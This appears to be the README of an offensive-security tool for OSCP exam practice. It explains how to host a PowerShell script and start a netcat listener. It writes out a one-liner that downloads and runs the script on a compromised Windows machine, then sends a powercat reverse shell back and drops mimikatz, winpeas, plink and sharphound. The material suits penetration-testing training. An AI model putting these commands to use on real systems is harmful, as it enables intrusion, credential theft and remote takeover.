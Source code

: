 # powershell-infect
A powershell script for the OSCP Exam which sets up a windows reverse shell and automates the download of some useful windows post-exploit and privilege escalation tools.


## Usage

1. Change the paths in the script to reflect the locations of the binaries on your attack box
2. setup a netcat listener at port 4200 (or change the port in the script as well as the following command)
```
rlwrap nc -lvnp 4200
```
3. Host the script on a web server. Perhaps using
```
systemctl start apache2
```
and moving the infect.ps1 file to `/var/www/html` if you are on a modern kali system
4. Upon discovery of RCE in a windows system, execute the following command, replacing your attack box's ip with <RHOST>, and the path of the script on your locally hosted web server
```
powershell -c 'IEX (New-Object System.Net.WebClient).DownloadString('http://<RHOST></some/path/infect.ps1>; infect <RHOST>
```


## Features
This script performs the following actions
1. checks architecture to determine which binaries to download
2. downloads powercat to memory
3. downloads the following to disk in a directory called `.\not-malware` (full path determined by the location of the RCE):
    - winpeas
    - mimikatz
    - plink
    - sharphound
4. sends a powercat reverse shell to a local listener at port 4200
